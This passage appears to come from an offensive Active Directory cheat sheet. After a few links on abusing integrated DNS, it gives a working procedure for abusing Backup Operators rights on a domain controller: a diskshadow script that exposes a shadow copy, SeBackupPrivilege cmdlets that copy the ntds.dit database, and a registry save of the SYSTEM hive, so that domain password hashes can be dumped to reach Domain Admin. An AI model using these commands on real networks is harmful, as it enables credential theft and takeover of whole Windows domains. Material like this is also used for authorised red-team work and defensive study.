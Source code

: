 #### **Abusing Active Directory-Integraded DNS**

* [Exploiting Active Directory-Integrated DNS](https://blog.netspi.com/exploiting-adidns/)
* [ADIDNS Revisited](https://blog.netspi.com/adidns-revisited/)
* [Inveigh](https://github.com/Kevin-Robertson/Inveigh)

#### **Abusing Backup Operators Group**

_WUT IS DIS ?: If we manage to compromise a user account that is member of the Backup Operators group, we can then abuse it’s SeBackupPrivilege to create a shadow copy of the current state of the DC, extract the ntds.dit database file, dump the hashes and escalate our privileges to DA._

* Once we have access on an account that has the SeBackupPrivilege we can access the DC and create a shadow copy using the signed binary diskshadow:

```
#Create a .txt file that will contain the shadow copy process script
Script ->{
set context persistent nowriters  
set metadata c:\windows\system32\spool\drivers\color\example.cab  
set verbose on  
begin backup  
add volume c: alias mydrive  
 
create  
  
expose %mydrive% w:  
end backup  
}

#Execute diskshadow with our script as parameter
diskshadow /s script.txt
```

* Next we need to access the shadow copy, we may have the SeBackupPrivilege but we cant just simply copy-paste ntds.dit, we need to mimic a backup software and use Win32 API calls to copy it on an accessible folder. For this we are going to use [this](https://github.com/giuliano108/SeBackupPrivilege) amazing repo:

```
#Importing both dlls from the repo using powershell
Import-Module .\SeBackupPrivilegeCmdLets.dll
Import-Module .\SeBackupPrivilegeUtils.dll
  
#Checking if the SeBackupPrivilege is enabled
Get-SeBackupPrivilege
  
#If it isn't we enable it
Set-SeBackupPrivilege
  
#Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
  
#Dump the SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive 
```
